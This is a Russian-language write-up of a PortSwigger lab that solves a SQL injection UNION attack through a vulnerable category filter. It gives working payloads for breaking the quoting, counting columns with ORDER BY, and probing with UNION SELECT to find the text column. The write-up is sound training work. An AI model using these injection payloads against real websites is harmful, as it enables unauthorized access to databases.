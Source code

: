 ```yaml
---
title: "SQL injection UNION attack, finding a column containing text"
date: 2025-06-19
tags: [sql, writeup]
---
```

**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text)


## Scope
```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Нужно найти столбец, в котором используются строки.


## Solution

Из задания известно, что **sqli**** находится в фильтре категории, поэтому возьму `URL` и буду работать с ним:

```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти обрамление параметра. Предположу, что запрос в БД выглядит следующим образом:

```SQL
SELECT * FROM table WHERE category = 'Accessories'
```

Поверю это, передав следующий пейлоад:

```
Accessories' and false-- -
```

Товары не отобразились, значит я нашел обрамление. 

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/1.png){: height="200" .align-center}

Далее найду количество колонок с помощью `ORDER BY`:

```
Accessories' ORDER BY 4-- -ошибка
Accessories' ORDER BY 3-- -ОК
```

Значит в БД 3 колонки. Подставлю `UNION`, чтобы вывести данные на страницу:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -ОК
```

Подставлю свои данные вместо `NULL`:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -
```

Только сейчас заметил, что нужно вывести определенную строку) Ну ок.

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/2.png){: height="200" .align-center}


```
Accessories' UNION SELECT 'xCxqZ9', NULL, NULL-- -ошибка
Accessories' UNION SELECT NULL, 'xCxqZ9', NULL-- -ОК
```

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/3.png){: height="200" .align-center}

Лаба решена:3